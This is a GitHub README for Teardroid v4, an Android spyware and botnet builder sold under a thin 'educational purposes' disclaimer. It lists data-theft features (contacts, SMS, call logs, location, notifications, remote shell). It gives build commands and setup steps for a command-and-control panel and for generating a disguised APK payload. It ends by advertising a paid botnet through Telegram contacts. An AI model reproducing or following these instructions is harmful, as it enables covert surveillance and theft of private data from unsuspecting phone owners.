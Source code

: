 ### :warning:Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.

# :robot: Teardroid v4

![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

🇮🇳 It's easy to use android botnet work without port forwarding, vps and android studio

[![GitHub issues](https://img.shields.io/github/issues/ScRiPt1337/Teardroid-phprat)](https://github.com/ScRiPt1337/Teardroid-phprat/issues)
[![Twitter](https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Ftwitter.com%2Fhacksec42)](https://twitter.com/intent/tweet?text=Wow:&url=https://github.com/ScRiPt1337/Teardroid-phprat/)
[![Hacksec](https://img.shields.io/badge/Teardroid-4.0-red)](https://github.com/ScRiPt1337/Teardroid-phprat/)
![visitors](https://visitor-badge.lithub.cc/badge?page_id=page.id&left_color=teardroid&right_color=green)

### :rocket: Features

- Retrieve Contact
- Retrieve SMS
- Retrieve running Services
- Retrieve Device Location (:worried: Only work when the app is open on newer devices)
- Retrieve Call Logs
- Run Shell Command ( use findphno command in run shell command to get device phone number and use findx:pdf to find all the pdf files on the device )
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start
- Add webview in homepage
- Ignore Battery Optimisation
- Change icon
- ~~Get device admin permission~~

### :warning: Requirement

- Python3
- Java
- Linux or Windows os (we don't support termux use gcloud)
- For android mobile users use github Codespaces

### Java version i used

```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### Tested on

- Windows 11
- Windows 10
- Manjaro
- Kali linux
- Ubuntu
- macOS Ventura

### Run control panel on deta.space

- Create a account on https://deta.space
- Download teardroid control panel api from => [click here](https://github.com/ScRiPt1337/Teardroidv4_api/archive/refs/heads/main.zip)
- unzip the zip file go inside the unziped folder and open a cmd there
- run setup.py script using the command below 

```bash
$ python setup.py # for Windows
$ python3 setup.py # for Linux
```
- it will open deta.space on your browser and ask you to click on the search bar and click on setting then generate access token
- copy the access token and paste it in the terminal or cmd
- it will setup the panel for you automatically and give you the panel url at the end when the deployment is done
- your home page will redirect you to wikipedia
- add /v4 at the end of your panel url to access teardroid control panel

### How to setup the builder ( generate apk payload )

- Clone Teardroid-phprat repo with the following command.

```bash
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```

- cd in the Teardroid-phprat directory, then type the command below to install all dependencies

```bash
$ pip install -r requirements.txt
```

- Run the following command to see the options that we can use with the builder.

```bash
$ python Teardroid.py
[+] Checking Python Version
[+] Python Version : 3.10 ✓
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/


Teardroid v4.0 - A tool to build teardroid spyware for Android devices. 🕷
Contact us : https://t.me/script1337 🚀
usage: Teardroid.py [-h] [-v] [-b]

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid 🥴
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid] 😷
```

- To create an apk execute the following command.

```bash
$ python Teardroid.py -b your_app_name
```

- It will prompt you with your Control Panel url enter your deta space control panel url without /v4 or your own server url (without / at the end of the url).
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- then it ask you to enter the icon folder path so enter the icon folder path
- DONE

### Note for macOS
- If you got Permissions Denial in mac os please run `chmod 777 *` inside Teardroid folder

### Dashboard

- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### IMPORTANT NOTICE

- use your own keystore its not recommended to use the defualt keystore you can modify the values in Config.py file to use your own keystore with teardroid v4.

### Screenshot

- ![Builder](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/Builder_3oDdS0Tr7.png)

- ![Overview](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-29_gYkI6tIvGmG.png)

- ![TaskManager](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-49_RakvqeLWG.jpeg)

### Need something more advanced try ( scatter alfa )
- If you're looking for a reliable and stable botnet that can meet your advanced needs, I would highly recommend taking a look at Scatter Alfa. Scatter Alfa has been specifically designed to provide advanced functionality and persistence over an extended period of time, making it an ideal choice for users who require persistence and stability.
- [Learn more about scatter alfa](https://github.com/ScRiPt1337/Teardroid-phprat/blob/master/advanced.md)
- You can buy it from => https://scatter.sellup.io/
- Demo video available on my telegram channel => https://t.me/scatter1337

### Contact info
- for paid project contact me on telegram
- Telegram : https://t.me/script1337
- TOX : 49ACC573168C5ABD1CEE4AACE6A52593EA157BF9AB4CAC01A4FB8F6C0C24EE76516A3DCE665A
